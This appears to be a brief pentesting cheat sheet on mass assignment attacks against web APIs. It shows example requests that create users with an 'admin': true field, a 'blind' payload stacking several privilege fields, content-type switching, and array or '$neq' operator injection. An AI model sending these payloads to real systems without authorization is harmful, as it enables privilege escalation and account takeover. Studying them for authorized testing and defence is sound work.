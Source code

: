 Admin Registration

```json
POST /api/admin/create/user
Token: AdminAuthToken
-Redacted-
{
"username": "admin2",
"pass": "Iforgetit0ften",
"admin": true
}
```

```json
POST /create/user
Token: StandardUserAuthToken
-Redacted-
{
"username": "tester",
"pass": "Test1234",
"admin": true
}
```



Blind Mass Assignment: \
If you suspect an API is vulnerable to Mass Assignment, there is a chance it may ignore the irrelevant variables and accept the variable that matches the expected name and format.

```json
{
"username":"testern",
"email":"tester@site.com",
"admin": true,
"admin":1,
"isadmin": true,
"role":"admin",
"role":"administrator",
"user_priv": "admin",
"password":"Password1!"
}
```

**Check different `Content-Types`**

```
x-www-form-urlencoded --> user=test
application/json --> {"user": "test"}
application/xml --> <user>test</user>**
```

If it's regular POST data try sending arrays, dictionaries

```
username[]=John
username[$neq]=lalala**
```
